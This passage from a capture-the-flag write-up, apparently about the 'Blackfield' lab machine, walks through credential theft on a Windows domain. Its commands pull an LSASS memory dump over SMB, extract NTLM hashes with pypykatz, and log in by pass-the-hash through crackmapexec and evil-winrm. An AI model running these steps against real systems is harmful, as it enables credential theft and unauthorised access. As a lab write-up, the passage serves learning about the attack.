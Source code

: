 > **LSASS.DMP** is a dump file of the **LSASS** process. Attackers can dump **LSASS** to a dump file using  tools such as **[ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump){:target="_blank"}**. The attacker can then extract passwords and password hashes from the process dump offline using **Mimikatz**.

```cmd
smbclient //10.10.10.192/forensic -U 'audit2020'
    > dir
    > cd memory_analysis
    > mget lsass.zip                                  # :(
#     --> parallel_read returned NT_STATUS_IO_TIMEOUT

smbclient //10.10.10.192/forensic -U 'audit2020' -m SMB2 -c 'timeout 120; iosize 16384; get \"memory_analysis\lsass.zip\"'
file \\memory_analysis\\lsass.zip\\
mv \\memory_analysis\\lsass.zip\\ lsass.zip
file lsass.zip
#    --> Zip archive data

unzip lsass.zip
#    --> lsass.DMP       ??
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Since I have not yet been able to access the machine, I will have to search the **Internet** for a way to get the password hashes contained in the **lsass.DMP** file. The great thing about search engines is that many times the auto-complete will suggest the information you are looking for. I find a **Github resource**, **[“Lsass minidump and pypykatz module on Linux”](https://github.com/ufrisk/MemProcFS/issues/175){:target="_blank"}**, which performs the extraction of the hashes using [`pypykatz`](https://github.com/skelsec/pypykatz){:target="_blank"}. After installing the tool with `pip3`, I can now use it and find **Administrator** and **svc_backup** user hashes. With `evil-winrm` I use the **[Pass the hash attack](https://www.crowdstrike.com/cybersecurity-101/pass-the-hash/){:target="_blank"}** and finally I can access the box as the user **svc_backup** and see the content of the first flag.

> **Pass the hash** (**PtH**) is a type of cybersecurity attack in which an adversary steals a “hashed” user credential and uses it to create a new user session on the same network. Unlike other credential theft attacks, a pass the hash attack does not require the attacker to know or crack the password to gain access to the system. Rather, it uses a stored version of the password to initiate a new session.

```bash
pip3 install pypykatz
pypykatz --help                                                                               # :)
pypykatz lsa minidump lsass.DMP

crackmapexec smb 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'           # :)
crackmapexec smb 10.10.10.192 -u 'Administrator' -H '7f1e4ff8c6a8e6b6fcae2d9c0572cd62'        # :(
crackmapexec winrm 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'         # Pwn3d!

evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

whoami
hostname
```